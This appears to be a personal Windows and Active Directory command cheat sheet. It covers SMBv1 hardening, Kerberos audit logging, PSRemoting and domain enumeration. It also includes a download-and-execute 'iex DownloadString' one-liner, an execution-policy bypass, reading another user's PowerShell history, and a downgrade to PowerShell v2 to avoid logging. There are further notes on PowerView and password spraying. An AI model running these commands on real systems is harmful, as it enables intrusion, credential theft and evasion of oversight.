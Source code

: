 ## disable SMBv1 "Eternal Blue"

### check

```powershell
Get-SmbServerConfiguration | Select EnableSMB1Protocol
```

### disable

```powershell
Set-SmbServerConfiguration -EnableSMB1Protocol $false
```

### check for service principal names

```powershell
setspn -L <hostname>
Get-ADUser -Filter {ServicePrincipalName -ne '$null'} -Properties ServicePrincipalName
```

### Deregister spn

```powershell
setspn -d <serviceClass/Host:Port> <AccountName>
```

### Backup DNS

```powershell
Export-DnsServerZone -Name <zonename> -filename <zonename.dns.bak>
```

- will be stored in C:\Windows\System32\dns

## add local computer to allow psremoting via WSMAN works on powershell 7 or core

```powershell
Set-Item WSMan:\localhost\client\trustedhosts -Value '192.168.50.101,192.168.50.100,172.21.0.11,172.21.0.222,172.21.0.78'

```

```powershell
New-PSSession -name 'test' -ComputerName '192.168.50.101'
Enter-PSSession -name 'test'
$x = New-PSSession -name 'test' -ComputerName '192.168.50.101' -Credential 'WWE\Administrator'
Invoke-Command -Session $x -Computername '192.168.50.101' -Scriptblock {whoami}
```

## map network drives

```powershell
New-PSDrive -Name X -PSProvider FileSystem -Root \\192.168.220.80\backups -Credential 'coastbackup' -Persist
```

### setting up kerberos logging command line

- check gpos for domain

```powershell
Get-GPO -All -Domain "sales.contoso.com"
```

- easier to do through group policy graphically, but we can update the audit policy directly

```powershell
Set-SystemAuditPolicy -AccountLogon 'Kerberos Authentication Service' -Value SuccessAndFailure -Verbose
Set-SystemAuditPolicy -AccountLogon 'Kerberos Service Ticket Operations' -Value SuccessAndFailure -Verbose

```

- trying a password spray attack, lets see if logs show up

## good enumeration commands

```powershell
hostname
[System.Environment]::OSVersion.Version
wmic qfe get Caption,Description,HotFixID,InstalledOn
ipconfig /all
set
```

```cmd
echo %USERDOMAIN%
echo %logonserver%
```

## powershell enumeration

```powershell
Get-ExecutionPolicy -List
Set-ExecutionPolicy Bypass -Scope Process
Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
Get-ChildItem Env: | ft Key,Value
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"

```

- Powershell event logging was introduced as a feature with Powershell 3.0 and forward. With that in mind, we can attempt to call Powershell version 2.0 or older. If successful, our actions from the shell will not be logged in Event Viewer.

```powershell
powershell.exe -version 2
```

## powersploit/powerview

- add folder to path where powershell modules are store C:\Users\Documents\WindowsPowerShell\Modules
- Import-Module Powersploit
- dot source powerview.ps1 . .\powerview.ps1
- see documentation for available commands
  [powersploit](https://github.com/PowerShellMafia/PowerSploit)

- see if anyone else is logged in

```powershell
qwinsta
```

## wmi enumeration

```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn 	#Prints the patch level and description of the Hotfixes applied
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List #Displays basic host information to include any attributes within the list
wmic process list /format:list 	#A listing of all processes on host
wmic ntdomain list /format:list 	#Displays information about the Domain and Domain Controllers
wmic useraccount list /format:list 	#Displays information about all local accounts and any domain accounts that have logged into the device
wmic group list /format:list 	#Information about all local groups
wmic sysaccount list /format:list
```

## dsquery

- gives full path to ldap distiguished names for objects, users, groups!

```powershell
dsquery user
dsquery computer
dsquery group
dsquery * -filter "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.2.803:=64))" -attrs SamAccountName
distiguishedName
dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
```

![Alt text](image.png)

- 1.2.840.113556.1.4.803 matches exactly
- 1.2.840.113556.1.4.804 matches if any are a match, for multiple entries
- 1.2.840.113556.1.4.1941 applies to Distiguished names
<<<<<<< HEAD
=======

>>>>>>> 0e13689242e7a567f8df51612b0183da015e6cfd
